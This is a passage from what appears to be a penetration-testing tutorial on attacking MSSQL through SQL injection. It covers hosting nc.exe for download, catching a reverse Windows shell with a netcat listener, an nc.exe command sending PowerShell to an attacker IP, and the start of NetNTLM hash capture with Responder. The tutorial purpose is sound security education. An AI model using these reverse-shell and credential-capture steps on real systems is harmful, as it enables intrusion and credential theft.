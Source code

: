 Before we run the command, we need to download and host `nc.exe` on our machine for the server to download. You can download a compiled version from [here](https://github.com/int0x33/nc.exe). Put it in any directory and then start a temporary `HTTP` server on port `80` with Python like this:

```shell
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

```

Once the HTTP server is listening, start a netcat listener with `nc -nvlp 9999` and inject the payload! We should get a reverse ( `cmd`) shell.

```shell
nc -nvlp 9999
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::9999
Ncat: Listening on 0.0.0.0:9999
Ncat: Connection from 192.168.43.156.
Ncat: Connection from 192.168.43.156:58085.
Microsoft Windows [Version 10.0.19043.1826]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>

```

Note: If you prefer using powershell, you can of course have \`nc.exe\` run it instead of \`cmd.exe\` by using a command like `cmd
nc.exe -nv 192.168.43.164 9999 -e C:\Windows\System32\WindowsPowershell\v1.0\powershell.exe`


# Leaking NetNTLM Hashes

## Capturing the Hash

It's not uncommon for database administrators to set up service accounts for `MSSQL` to be able to access `network shares`. If this is the case, and we have found an SQL injection, we should be able to capture NetNTLM credentials and possibly crack them.

Basically, we will coerce the SQL server into trying to access an SMB share we control and capture the credentials. There are a couple of ways to do this, one of which is to use [Responder](https://github.com/lgandx/Responder). Let's clone the GitHub repository locally and enter the folder.

```shell
git clone https://github.com/lgandx/Responder
Cloning into 'Responder'...
remote: Enumerating objects: 2153, done.
remote: Counting objects: 100% (578/578), done.
remote: Compressing objects: 100% (295/295), done.
remote: Total 2153 (delta 337), reused 431 (delta 279), pack-reused 1575
Receiving objects: 100% (2153/2153), 2.49 MiB | 1.54 MiB/s, done.
Resolving deltas: 100% (1363/1363), done.

```
